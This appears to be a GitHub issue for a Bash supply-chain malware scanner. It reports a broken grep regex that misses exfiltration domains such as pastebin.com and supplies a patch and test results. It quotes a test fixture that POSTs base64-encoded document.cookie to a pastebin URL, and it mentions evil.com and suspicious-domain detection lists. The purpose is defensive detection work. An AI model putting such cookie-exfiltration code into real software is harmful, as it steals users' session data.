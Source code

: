 # GitHub Issue #43 - CORRECTED VERSION

## 🐛 Bug: Network Exfiltration Domain Detection Fails

**Status**: 🔧 Fixed locally, awaiting merge

---

## Summary

The paranoid mode network exfiltration domain detection uses a broken regex pattern that **never matches** domain names in URLs. This causes the scanner to miss critical indicators like `pastebin.com` and other suspicious domains used for data exfiltration.

---

## Bug Details

**Affected Version**: All versions with paranoid mode  
**Component**: Network exfiltration detection in paranoid mode  
**Severity**: HIGH - Security detection bypass

### Location

**File**: `shai-hulud-detector.sh`  
**Function**: `check_network_exfiltration()`  
**Lines**: ~1119, ~1122, ~1127

### The Problem

```bash
# BROKEN (current):
if grep -q "https\?://[^[:space:]]*$domain\|[[:space:]]$domain[[:space:/]\"\']" "$file" 2>/dev/null; then
#          ^^^^^^^^^^^^^^^^^
#          This pattern NEVER matches!
```

**Why it fails**: The `[^[:space:]]` character class in this context doesn't work as intended with the `\?` escaped quantifier and domain variable interpolation.

### The Fix

```bash
# FIXED:
if grep -qE "https?://.*$domain" "$file" 2>/dev/null; then
#       ^^   ^^^^^^^^
#       Use -E for extended regex and simplified pattern
```

**Changes**:
1. Use `-E` flag for extended regex (no need to escape `?`)
2. Replace `[^[:space:]]*` with `.*` (simpler and works)
3. Remove unnecessary alternation patterns

---

## Reproduction

### Test Case

**File**: `test-cases/comprehensive-test/suspicious.js` (line 4)
```javascript
fetch("https://pastebin.com/steal", {
  method: "POST",
  body: btoa(document.cookie)
});
```

### Before Fix

```bash
$ ./shai-hulud-detector.sh --paranoid test-cases/comprehensive-test
# Output: DOES NOT detect pastebin.com
Medium Risk Issues: 5  # Missing network domain warning
```

### After Fix

```bash
$ ./shai-hulud-detector.sh --paranoid test-cases/comprehensive-test
# Output: DETECTS pastebin.com
⚠️  MEDIUM RISK (PARANOID): Network exfiltration patterns detected:
   - Warning: Suspicious domain found: pastebin.com at line 4
Medium Risk Issues: 6  # Includes network domain warning ✅
```

---

## Test Results

**Tested on**: Git Bash 2.x (Windows/MINGW64), Bash 5.x (Linux)

**Test cases with suspicious domains**: 4 out of 23 total

| Test Case | Before Fix | After Fix |
|-----------|------------|-----------|
| comprehensive-test | ❌ Missed pastebin.com | ✅ Detects pastebin.com |
| infected-project | ✅ Detects webhook.site | ✅ Still detects |
| mixed-project | ✅ Detects webhook.site | ✅ Still detects |
| network-exfiltration-project | ✅ Detects domains | ✅ Still detects |

**Summary**: 
- Before fix: 3/4 test cases showed network warnings (missed 1)
- After fix: 4/4 test cases show network warnings (all detected) ✅

---

## Impact

### Security Impact: HIGH

1. **Detection Bypass**: Domains like `pastebin.com`, `file.io` used for data exfiltration are not detected
2. **False Sense of Security**: Users believe their code is safe when it actually contains exfiltration patterns
3. **Partial Detection**: IPs and WebSockets are detected (different regex), but domains are missed

### What Still Works

The following network checks are **NOT affected** (use different patterns):
- ✅ Hardcoded IP addresses (`10.0.1.50`)
- ✅ WebSocket connections (`wss://evil.com`)
- ✅ Base64 encoding/decoding near network operations

---

## Suggested Fix (Patch)

```diff
--- a/shai-hulud-detector.sh
+++ b/shai-hulud-detector.sh
@@ -1116,7 +1116,7 @@ check_network_exfiltration() {
             if [[ "$file" != *"package-lock.json"* && "$file" != *"yarn.lock"* && "$file" != *"/vendor/"* && "$file" != *"/node_modules/"* ]]; then
                 for domain in "${suspicious_domains[@]}"; do
                     # Use word boundaries and URL patterns to avoid false positives like "timeZone" containing "t.me"
-                    if grep -q "https\?://[^[:space:]]*$domain\|[[:space:]]$domain[[:space:/]\"\']" "$file" 2>/dev/null; then
+                    if grep -qE "https?://.*$domain" "$file" 2>/dev/null; then
                         # Additional check - make sure it's not just a comment or documentation
                         local suspicious_usage
-                        suspicious_usage=$(grep "https\?://[^[:space:]]*$domain\|[[:space:]]$domain[[:space:/]\"\']" "$file" 2>/dev/null | grep -v "^[[:space:]]*#\|^[[:space:]]*//" 2>/dev/null | head -1 2>/dev/null) || true
+                        suspicious_usage=$(grep -E "https?://.*$domain" "$file" 2>/dev/null | grep -v "^[[:space:]]*#\|^[[:space:]]*//" 2>/dev/null | head -1 2>/dev/null) || true
                         if [[ -n "$suspicious_usage" ]]; then
                             # Get line number and context
                             local line_info
-                            line_info=$(grep -n "https\?://[^[:space:]]*$domain\|[[:space:]]$domain[[:space:/]\"\']" "$file" 2>/dev/null | grep -v "^[[:space:]]*#\|^[[:space:]]*//" 2>/dev/null | head -1 2>/dev/null) || true
+                            line_info=$(grep -nE "https?://.*$domain" "$file" 2>/dev/null | grep -v "^[[:space:]]*#\|^[[:space:]]*//" 2>/dev/null | head -1 2>/dev/null) || true
```

---

## How We Found This

This bug was discovered while implementing a Rust port of the scanner. The Rust version correctly detected all network domains, revealing that the Bash version was missing detections. Mathematical verification showed:

- **Bash (broken)**: Found 5 MEDIUM risk issues in comprehensive-test
- **Rust (correct)**: Found 7 MEDIUM risk issues in comprehensive-test
- **Difference**: 2 missing network domain warnings

Further investigation revealed the broken regex pattern.

---

## Related Issues

This is one of two regex bugs found in paranoid mode:
1. **This issue**: Network domain detection (lines ~1119-1127)
2. **Homoglyph detection**: AWK pre-filter blocks Unicode (line ~943) - Will report separately

---

## Verification

After applying the fix:

```bash
# Test the fix
./shai-hulud-detector.sh --paranoid test-cases/comprehensive-test 2>&1 | grep -A 3 "pastebin"
# Should output:
#   - Warning: Suspicious domain found: pastebin.com at line 4: fetch("https://pastebin.com/steal", {...
```

---

**Ready for merge**: Fix has been tested and verified on multiple platforms. No breaking changes to existing functionality.
